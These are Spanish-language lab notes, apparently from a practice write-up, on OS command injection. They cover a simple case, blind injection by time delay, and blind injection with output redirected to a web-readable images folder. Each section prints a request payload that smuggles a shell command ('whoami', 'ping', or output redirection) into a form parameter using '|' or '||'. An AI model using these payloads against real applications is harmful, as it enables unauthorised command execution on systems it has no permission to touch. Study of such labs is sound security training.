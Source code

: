 # OS command injection


# OS command injection, simple case

El caso mas simple en donde se consulta el stock se le agrega el | y el comando

```
productId=1&storeId=1|whoami

```

# Blind OS command injection with time delays

En este caso se inyectan comandos en Submmit feedback se usa de nueva cuenta el pipe |

```
csrf=fTYXLcrD0AxoStj3Bo0z58nhjs22Oep5&name=Masa&email=masa%40gmail.com||ping+-c+10+127.0.0.1||&subject=abcd1234&message=Comment
```

# Blind OS command injection with output redirection

Para este laboratorio no se refleja el comanod inyectado en el email de submitt feedback sin embargo se puede redireccionar a una carpeta con 
permisos de escritura /var/wwww/images( desde donde se cargan las imagenes) si damos clic derecho en una imagen y le ponemos cargar en una pestaña
nos da image?filename=image.jpg entonces si se cargan de esa ruta podriamos hacer algo como image?filename=out.txt.

```
csrf=Kfbe6pN4ThGKonJGCUZmmSS2tzjh6CF0&name=Masa&email=masa%40gmail.com|whoami>out4.txt||&subject=abcd1234&message=Comment

```
NO olvides que si no agregas los 2 || al final no se porque pero no sirve.



